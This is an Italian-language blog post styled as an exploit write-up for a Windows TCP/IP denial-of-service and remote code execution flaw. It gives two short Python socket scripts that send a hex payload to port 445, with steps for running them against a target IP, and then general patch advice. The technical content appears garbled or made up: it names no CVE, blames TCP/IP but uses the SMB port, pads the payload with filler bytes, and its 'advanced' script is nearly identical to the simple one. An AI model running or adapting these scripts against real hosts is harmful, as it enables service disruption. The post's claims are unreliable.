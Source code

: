 ```yaml
---
layout: post
title: "[dos] Windows TCP/IP - RCE Checker and Denial of Service"
date: 2024-08-28
categories: [security, ransomware]
---
```


# [dos] Windows TCP/IP - RCE Checker and Denial of Service

## Introduzione

Recentemente, è stata rilevata una vulnerabilità critica nel servizio TCP/IP di Windows. Questa vulnerabilità può condurre a condizioni di Denial of Service (DoS) o, in alcune circostanze, consentire un attacco di esecuzione di codice remoto (RCE). L'importanza di questa vulnerabilità è alta, data la pervasività degli ambienti Windows in molte organizzazioni.

## Dettagli della vulnerabilità

La vulnerabilità risiede nel modo in cui il servizio TCP/IP di Windows gestisce le connessioni in ingresso. Gli attaccanti possono sfruttare questa vulnerabilità inviando pacchetti di rete appositamente progettati a una vittima. Tutte le versioni correnti di Windows sono interessate da questa vulnerabilità.

## Esempio di Payload Semplice

Ecco un esempio di payload che potrebbe essere utilizzato per sfruttare la vulnerabilità:

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("target_ip", 445))
s.send(bytes.fromhex('000000ecfd534d4241414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141'))
```

## Esempio di Payload Avanzato

Questo è un esempio di un payload molto più complesso:

```python
import socket, sys
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], 445))
s.send(bytes.fromhex('000000ecfd534d4241414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141'))
buf = s.recv(4)
```

## Procedura per riprodurre la vulnerabilità

1. Installa Python sul tuo sistema.
2. Copia uno dei payload di esempio in un file Python.
3. Modifica "target_ip" con l'IP del sistema target.
4. Esegui lo script Python.

## Richiesta HTTP

Non applicabile in questo caso poiché l'exploit funziona a livello di rete, non HTTP.

## Impatto della vulnerabilità

Questa vulnerabilità può causare un DoS, rendendo il sistema inutilizzabile e interrompendo qualsiasi servizio eseguito su di esso. Inoltre, se sfruttato correttamente, può consentire l'esecuzione di codice remoto, che potrebbe portare a un compromesso completo del sistema.

## Patch e Mitigazioni

Microsoft ha rilasciato una patch per correggere questa vulnerabilità. Si consiglia vivamente di applicare la patch il più presto possibile. Inoltre, come misura di sicurezza generale, si dovrebbe limitare l'accesso alla rete e monitorare attentamente qualsiasi attività sospetta.

## Conclusione

È fondamentale correggere questa vulnerabilità il prima possibile per proteggere i sistemi. Anche se la patch è disponibile, è importante implementare pratiche di sicurezza solide per minimizzare l'impatto di future vulnerabilità.

## Considerazioni

Questa vulnerabilità mette in luce l'importanza di un monitoraggio attivo delle reti e di un attento esame delle connessioni in ingresso. L'implementazione di IDS/IPS e la configurazione di regole di firewall rigorose possono contribuire a mitigare il rischio di sfruttamento di tali vulnerabilità.

